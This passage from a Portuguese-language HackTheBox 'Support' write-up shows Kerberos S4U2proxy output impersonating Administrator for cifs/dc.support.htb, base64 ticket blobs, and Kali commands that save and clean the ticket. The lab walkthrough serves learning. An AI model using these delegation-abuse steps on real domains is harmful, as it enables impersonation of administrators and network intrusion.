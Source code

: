 ```powershell
      AwIBCqERMA8bDUFkbWluaXN0cmF0b3KjBwMFAEChAAClERgPMjAyNDAxMTAxNjM3MDFaphEYDzIwMjQw
      MTExMDIzNzAxWqcRGA8yMDI0MDExNzE2MzcwMVqoDRsLU1VQUE9SVC5IVEKpFDASoAMCAQGhCzAJGwdG
      QUtFMDEk

[*] Impersonating user 'Administrator' to target SPN 'cifs/dc.support.htb'
[*] Building S4U2proxy request for service: 'cifs/dc.support.htb'
[*] Using domain controller: dc.support.htb (::1)
[*] Sending S4U2proxy request to domain controller ::1:88
[+] S4U2proxy success!
[*] base64(ticket.kirbi) for SPN 'cifs/dc.support.htb':

      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
      Gw5kYy5zdXBwb3J0Lmh0Yg==
[+] Ticket successfully imported!
```

​	Com o ticket gerado, podemos salvá-lo em um arquivo em nossa máquina, remover os espacos em branco utilizando o **sed** e fazer decode em base64.

**OBS: O ticket utilizado é o último gerado**. 

```bash
┌──(kali㉿kali)-[~/…/HTB/support]
└─$ nano ticket64.kirbi                                                                                                                                                                                                                                     
┌──(kali㉿kali)-[~/…/HTB/support]
└─$ sed 's/^[ \t]*//' ticket64.kirbi > ticket64_1.kirbi
                                                                                                               
┌──(kali㉿kali)-[~/…/HTB/support]
└─$ cat ticket64_1.kirbi 
doIGYDCCBlygAwIBBaEDAgEWooIFcjCCBW5hggVqMIIFZqADAgEFoQ0bC1NVUFBPUlQuSFRCoiEwH6AD
AgECoRgwFhsEY2lmcxsOZGMuc3VwcG9ydC5odGKjggUrMIIFJ6ADAgESoQMCAQWiggUZBIIFFVdn2SQq
LP14ChOVmK8jo6QuDevziE4720Wq+myP1Aa285dpoSSxkgBpWVIcegPVM4qmPWm3bVJTWUvc5LTmFJ8K
8xEits8oXzAWQxHnVz5Ynewh5kbszLCkcq0c8E5UcO0za2B//Cwkk0TAidVx6Kak+erRXZs7cYit4Jxz
qZ6WbHj9iz7Au8PhC+P0z1FR24wzZekfQEWJVpGrdi/JPKCNJ7NWnPuRbbSlwRSse+YXJqQtmdASH8TY
pv6YNkAEf7NsZueG27PsgxMw9wCv/qmOyGulWvT2FD56rde9ItQ5VruAHiEWpDxSTYhQ9FXHow4t8uKm
FSEJM41kkU76q1giJn90a0gzVlU3yITRrTjEiRuPQvHz7UICmNPKcW3vUwJOUyvqh/bdr9UM6u8S7XDy
```